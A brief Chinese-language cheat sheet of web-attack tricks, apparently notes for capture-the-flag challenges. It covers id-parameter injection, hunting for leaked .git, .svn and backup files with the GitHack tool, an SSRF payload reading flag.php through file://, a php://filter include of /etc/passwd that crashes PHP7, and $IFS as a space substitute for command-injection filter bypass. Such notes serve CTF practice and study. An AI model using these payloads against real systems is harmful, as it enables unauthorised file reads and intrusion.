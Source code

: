## 基础脑洞/思路
1. index.php?id=1  遍历id 注入
2. robots.txt .git .svn .swp ~ .bak 源码，目录泄露
  .git泄露利用EXP
  https://github.com/lijiejie/GitHack


## ssrf常用payload
`admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php`

## php7 直接崩溃bug
`include(‘php://filter/string.strip_tags/resource=/etc/passwd’)`
## $IFS
空格可以使用$IFS代替